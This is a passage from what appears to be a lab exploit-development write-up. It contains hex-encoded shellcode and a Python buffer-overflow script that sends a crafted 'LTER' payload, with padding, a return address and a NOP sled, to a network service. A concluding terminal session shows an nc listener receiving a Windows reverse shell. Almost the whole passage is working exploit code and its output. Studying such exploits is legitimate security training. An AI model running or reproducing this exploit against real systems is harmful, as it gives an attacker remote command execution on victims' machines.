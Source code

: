 ```python
"\x6a\x4c\x4b\x77\x62\x68\x6b\x4c\x4d\x53\x6d\x45\x38\x70\x33"
"\x65\x62\x73\x30\x75\x50\x71\x78\x54\x37\x31\x63\x64\x72\x51"
"\x4f\x33\x64\x75\x38\x42\x6c\x42\x57\x67\x56\x44\x47\x4b\x4f"
"\x79\x45\x4d\x68\x4e\x70\x33\x31\x73\x30\x77\x70\x47\x59\x4f"
"\x34\x51\x44\x30\x50\x73\x58\x55\x79\x6b\x30\x32\x4b\x73\x30"
"\x79\x6f\x39\x45\x50\x50\x76\x30\x76\x30\x70\x50\x47\x30\x36"
"\x30\x63\x70\x50\x50\x51\x78\x7a\x4a\x36\x6f\x79\x4f\x4b\x50"
"\x4b\x4f\x38\x55\x6f\x67\x50\x6a\x53\x35\x72\x48\x6f\x30\x6d"
"\x78\x66\x61\x68\x4d\x52\x48\x64\x42\x47\x70\x47\x71\x4f\x4b"
"\x4c\x49\x48\x66\x31\x7a\x42\x30\x61\x46\x36\x37\x61\x78\x4e"
"\x79\x4e\x45\x50\x74\x63\x51\x4b\x4f\x7a\x75\x6c\x45\x39\x50"
"\x50\x74\x56\x6c\x69\x6f\x32\x6e\x53\x38\x51\x65\x68\x6c\x35"
"\x38\x4a\x50\x6d\x65\x49\x32\x31\x46\x79\x6f\x6a\x75\x65\x38"
"\x45\x33\x62\x4d\x35\x34\x43\x30\x6c\x49\x6a\x43\x71\x47\x63"
"\x67\x73\x67\x56\x51\x4b\x46\x43\x5a\x32\x32\x51\x49\x43\x66"
"\x68\x62\x6b\x4d\x53\x56\x6a\x67\x71\x54\x74\x64\x45\x6c\x76"
"\x61\x77\x71\x4e\x6d\x42\x64\x44\x64\x46\x70\x4b\x76\x63\x30"
"\x51\x54\x42\x74\x50\x50\x73\x66\x46\x36\x72\x76\x61\x56\x72"
"\x76\x52\x6e\x62\x76\x71\x46\x30\x53\x51\x46\x62\x48\x52\x59"
"\x58\x4c\x77\x4f\x4d\x56\x69\x6f\x4a\x75\x6d\x59\x4b\x50\x62"
"\x6e\x43\x66\x50\x46\x39\x6f\x46\x50\x63\x58\x55\x58\x6b\x37"
"\x45\x4d\x63\x50\x4b\x4f\x4e\x35\x6f\x4b\x4b\x50\x47\x6d\x35"
"\x7a\x34\x4a\x62\x48\x6c\x66\x4c\x55\x6d\x6d\x6d\x4d\x4b\x4f"
"\x6e\x35\x35\x6c\x76\x66\x33\x4c\x46\x6a\x4b\x30\x49\x6b\x69"
"\x70\x62\x55\x76\x65\x4d\x6b\x53\x77\x34\x53\x43\x42\x42\x4f"
"\x33\x5a\x45\x50\x76\x33\x4b\x4f\x4e\x35\x41\x41")

buffer = "A" * 2002
buffer += "\x03\x12\x50\x62"
buffer += '\x90' * 15
buffer += shellcode
buffer += "C" * (3000 - len(buffer))

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host,port))
print s.recv(1024)
s.send("LTER /.../" + buffer)
print s.recv(1024)
s.close()
```

## Conclusion

We get our reverse shell:
```terminal_session
astrid:~/ # nc -lvp 443                                                                                                                 
listening on [any] 443 ...
192.168.1.201: inverse host lookup failed: Unknown host
connect to [192.168.1.205] from (UNKNOWN) [192.168.1.201] 49293
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\IEUser\Desktop>
```
